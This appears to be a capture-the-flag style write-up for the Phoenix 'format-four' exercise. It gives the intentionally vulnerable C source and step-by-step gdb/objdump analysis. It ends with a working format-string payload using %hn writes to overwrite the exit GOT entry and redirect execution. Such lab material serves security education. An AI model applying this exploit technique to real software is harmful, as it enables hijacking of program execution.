 # Format Four

```c
/*
 * phoenix/format-four, by https://exploit.education
 *
 * Can you affect code execution? Once you've got congratulations() to
 * execute, can you then execute your own shell code?
 *
 * Did you get a hair cut?
 * No, I got all of them cut.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

void bounce(char *str) {
  printf(str);
  exit(0);
}

void congratulations() {
  printf("Well done, you're redirected code execution!\n");
  exit(0);
}

int main(int argc, char **argv) {
  char buf[4096];

  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);
}
```

## Solution

1. The vulnerability is the same as [format_three](format_three.md), but this time we must write a specific value.
2. `` python -c 'print("AAAA" + "%p_"*15)' | /opt/phoenix/i486/format-four ``
    - ![addrs](img/addrs.png)
    - Our string is the 12th argument
3. Finding what pointer to put as the string:
    - `gdb /opt/phoenix/i486/format-four`
    - We want to overwrite the location holding the pointer to `exit(0)`.
    - `disass bounce`
    - `b *bounce+23`
    - ![](img/disass.png)
    - `0x08048330` is the address in the plt. We need the actual address in the got.plt
    - ![](img/exit%40got_plt.png)
    - `0x080497e4` is the address of the exit function call in the got.plt
4. the value to write:
    - `objdump -t /opt/phoenix/i486/format-four | grep "congratulations"`
    - ![](img/congrats_val.png)
5. So now we have everything we need to write `0x08048503` to the address `0x080497e4`.
6. Writing `0x08048503` characters to stdout for our `%n` operation could take awhile, so it's easier to break this out into two writes. One for the first 2 bytes and one for the second 2 bytes. We can do this with the `%hn` operator writing a half word.
    - `0x0804` = 2052
    - `0x8503` = 34051
7. `` python -c 'print("\xe6\x97\x04\x08AAAA\xe4\x97\x04\x08" + "%200x"*10 + "%40x" + "%hn" + "%31999x" + "%hn")' | /opt/phoenix/i486/format-four ``
    - `\xe6\x97\x04\x08` is the target address +2 bytes i.e. the 2 most significant bytes in the target.
    - `AAAA` This is padding because since we are doing two writes and they aren't the same value we need to make space for a parameter to increase the number of bytes we are writing.
    - `\xe4\x97\x04\x08` The target address.
    - `"%200x"*10 + "%40x"` = 200*10 + 40 = 2040. Since we already wrote 12 bytes with the 3 previous bullets we get 2040 +12 = 2052. i.e. the number of bytes we want to write for to get `0x0804`
    - `"%hn"` writes the value 2052 to `\xe6\x97\x04\x08`
    - `"%31999x"` adds 31999 to 2052 to make 34051. i.e. the number of bytes we need to write to make `0x8503`.
    - `"%hn"` writes that value `0x8503` to the address `\xe4\x97\x04\x08`.
8. ![](success2.png)
